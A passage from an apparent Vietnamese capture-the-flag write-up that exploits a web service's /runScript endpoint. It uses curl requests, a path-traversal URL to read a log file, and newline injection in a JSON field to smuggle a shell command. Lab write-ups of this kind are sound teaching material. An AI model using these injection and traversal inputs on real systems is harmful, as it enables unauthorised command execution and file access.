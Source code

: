 - Mình sẽ thử tạo một JSON như sau:

    ```json
    {
        "dir" : "test",
        "name" : "ls",
        "command_log" : "log",
        "url" : "http://localhost:8888/"
    }
    ```

- Ghép lại với `curl`:

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls", "command_log" : "log", "url" : "http://localhost:8888/"}'
    ```

- Và sau khi gửi, truy cập vào `http://139.180.208.121:8001/getData?f=/fus/data/../logs/log.txt` để xem kết quả của câu lệnh là gì (ta biết `logs` cùng chung thư mục cha với `data` khi xem code):

    ![curl](img/PRP201_2.png)

    ![log.txt](img/PRP201_3.png)

- Có thể thấy rằng, nội dung file chính`log.txt` chính là biến `script_path` được ra thêm cả `response` của `index()`, chúng trên một dòng nên sẽ bị lỗi, thử đổi `ls` thành `\nls\n` ở JSON và gửi lên, sẽ thấy sự khác biệt:

    ![curl_1](img/PRP201_4.png)

    ![log.txt_1](img/PRP201_5.png)
